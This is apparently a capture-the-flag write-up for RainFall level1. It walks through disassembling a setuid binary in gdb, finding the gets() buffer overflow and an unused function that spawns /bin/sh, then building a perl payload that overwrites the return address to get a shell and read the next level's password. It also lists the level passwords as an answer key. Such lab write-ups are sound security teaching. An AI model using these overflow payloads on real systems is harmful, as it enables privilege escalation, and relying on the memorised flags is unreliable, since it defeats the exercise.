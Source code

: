 # Level1 - Buffer overflow

## Local script usage

```shell
Usage: ./main.sh
```

## Passwords and token

|        |                                                                    |
| ------ | ------------------------------------------------------------------ |
| level1 | `1fe8a524fa4bec01ca4ea2a869af2a02260d4a7d5fe7e7c24d8617e6dca12d3a` |
| level2 | `53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77` |

## Steps to resolve on VM

1. Connect to `level1` user

```shell
ssh level0@$SNOW_HOST -p 4242
# Enter the password

ls -l
> -rwsr-s---+ 1 level2 users 5138 Mar  6  2016 level1
```

Notice there is a binary with level2 setuid.

2. Debug level1

Execute level1

```shell
./level1
> (stdin)
```

There is only a prompt. Lets disassemble the code.

```shell
gdb level1
(gdb) disas main

> 0x08048480 <+0>:     push   %ebp
  0x08048481 <+1>:     mov    %esp,%ebp
  0x08048483 <+3>:     and    $0xfffffff0,%esp
  0x08048486 <+6>:     sub    $0x50,%esp                ; 0x50 = 80
  0x08048489 <+9>:     lea    0x10(%esp),%eax
  0x0804848d <+13>:    mov    %eax,(%esp)
  0x08048490 <+16>:    call   0x8048340 <gets@plt>      ; call gets
  0x08048495 <+21>:    leave
  0x08048496 <+22>:    ret
```

Indeed, there is a `gets` syscall only.

```shell
(gdb) info functions

> (...)
  0x08048420  frame_dummy
  0x08048444  run
  0x08048480  main
  (...)
```

There is others functions. Lets see the function `run`

```shell
(gdb) disas run

> 0x08048444 <+0>:	push   %ebp
  0x08048445 <+1>:	mov    %esp,%ebp
  0x08048447 <+3>:	sub    $0x18,%esp
  0x0804844a <+6>:	mov    0x80497c0,%eax               ; 0x80497c0: stdout
  0x0804844f <+11>:	mov    %eax,%edx
  0x08048451 <+13>:	mov    $0x8048570,%eax              ; 0x8048570: "Good... Wait what?\n"
  0x08048456 <+18>:	mov    %edx,0xc(%esp)
  0x0804845a <+22>:	movl   $0x13,0x8(%esp)              ; 0x13 = 19
  0x08048462 <+30>:	movl   $0x1,0x4(%esp)               ; 0x1  = 1
  0x0804846a <+38>:	mov    %eax,(%esp)
  0x0804846d <+41>:	call   0x8048350 <fwrite@plt>       ; call fwrite("Good... Wait what?\n", 1, 19, stdout)
  0x08048472 <+46>:	movl   $0x8048584,(%esp)            ; 0x8048584: "/bin/sh"
  0x08048479 <+53>:	call   0x8048360 <system@plt>       ; call system("/bin/sh")
  0x0804847e <+58>:	leave
  0x0804847f <+59>:	ret
```

The function `run` contains a syscall `system` that executes `"/bin/sh"` and creates a subshell. As the binary `level1` is executed with level2 setuid, this function is interesting.

Unfortunately, the function `run` is not called in the main. We have to find a way to execute it.

3. Buffer overflow

We will use the buffer overflow attack.

We will take advantage of the buffer of `gets` function to execute the funtion `run`.

But first we need to know what is the buffer size. We noticed that 80bits (0x50) have been allocated. After many tries, we noticed

```shell
./level1
(stdin) aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa   # 75 chars

level1@RainFall:~$ ./level1
(stdin) aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa  # 76 chars
> Illegal instruction (core dumped)

level1@RainFall:~$ ./level1
(stdin) aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa # 77 chars
> Segmentation fault (core dumped)
```

We got a error for "illegal instruction" with 76 chars, and a segfault with 77 chars. We can deduct the buffer size wich is 76 with the ending '\0'.
The 4 bits remaining are reserved for EIP register that contains the next instruction.

Now we know the buffer size, we have to append to address of our function.

The address of `run` is: 0x08048444

```shell
(gdb) show endian

> The target endianness is set automatically (currently little endian)
```

It means we have to reverse the address. `0x08048444 => 0x44840408`

Now we have everything we need, we can create the overflow.

```shell
echo `perl -e 'print "a" x 76 . "\x44\x84\x04\x08"' 2> /dev/null` | ./level1

> Good... Wait what?
> Segmentation fault (core dumped)
```

A string appears here. It means the overflow works and the function `run` has been executed.
We have to keep the stdin open.

```shell
export OVERFLOW=`perl -e 'print "a" x 76 . "\x44\x84\x04\x08"' 2> /dev/null`
(echo $OVERFLOW && cat) | ./level1

> Good... Wait what?
> (stdin) cat /home/user/level2/.pass
>> 53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```

---

## Sources

### Buffer overflow

- [How to write a buffer overflow exploit](https://jvns.ca/blog/2013/10/28/day-17-buffer-overflows/)
- [Exploit a basic buffer overflow](https://myexperiments.io/exploit-basic-buffer-overflow.html)

### ASM explications

- [Stack buffer size is different between C and ASM](https://reverseengineering.stackexchange.com/questions/17075/stack-buffer-size-is-different-between-c-and-asm)

### Shell

- [Man gets](https://linux.die.net/man/3/gets)
- [Man fwrite](https://linux.die.net/man/3/fwrite)
- [Man system](https://linux.die.net/man/3/system)
- [Piping data to a process's stdin without causing EOF afterward](https://unix.stackexchange.com/questions/103885/piping-data-to-a-processs-stdin-without-causing-eof-afterward)
